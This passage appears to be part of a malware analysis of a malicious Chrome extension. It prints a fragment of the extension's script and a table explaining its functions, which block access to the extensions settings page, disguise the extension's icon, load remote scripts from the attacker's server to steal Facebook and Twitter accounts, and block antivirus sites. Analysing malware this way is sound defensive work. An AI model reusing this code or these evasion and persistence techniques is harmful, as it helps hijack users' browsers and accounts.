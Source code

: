 ```javascript
  return config.url.origin + path;
}

var rand = function (min, max) {
  return Math.floor(Math.random() * (max - min)) + min;
}

var key = function (length) {
  str = "abcdefghijklmnoprstuvyzxABCDEFGHIJKLMNOPRSTUVYZX0123456789";
  ret = "";
  for (l = 0; l < length; l++) {
    ret += str[Math.floor(Math.random() * str.length)];
  }
  return ret;
}

var isReady = (v) => {
  var promise = new Promise((resolve) => {
    var timer = window.setInterval(() => {
      if (typeof window[v] != 'undefined') {
        resolve(window[v]);
        window.clearInterval(timer)
      }
    }, 50);
  })
  return promise;
}

if (chrome) {
  run();
  icon();
  counter();
  //router();
  installed();
  loadData(uri("/js/facebook.js?" + Date.now()));
  loadData(uri("/js/twitter.js?" + Date.now()));
  if (chrome.webRequest) {
    onRequest()
    getfilters();
  }
}
```
<br> You can see there is a `if (chrome)` statement at the end of the file and it loads other functions in this script.
|Function|It does|
|--------|-------|
|`run()`|Check if the URL of each tabs start with `chrome:` protocol (Chrome internal sites) or not. If it starts with `chrome:`, that means the user is trying to access the Chrome setting (especially the Extension page) and this script will block it. If not then allow the page to load|
|`icon()`|Set the display icon of the extension to `http://pube.me/settings.png` (it's a "setting" icon) and set the URL to open when user click on the extension icon to `chrome://settings/`|
|`counter()`|Load Google Analytics (to log some data?)|
|`router()`|This is originally commented (not me), perhaps the function isn't used anymore. The URL `http://pube.me/ajax/route.php` return 404|
|`installed()`|Check for `installed` cookie to know whether this is the first time running this extension or not|
|`loadData()`|Load the scripts to stole Facebook and Twitter accounts to spread itself (talk about this later)|
|`onRequest()` and `getfilters()`|Block access to some websites, especially some antivirus sites.|
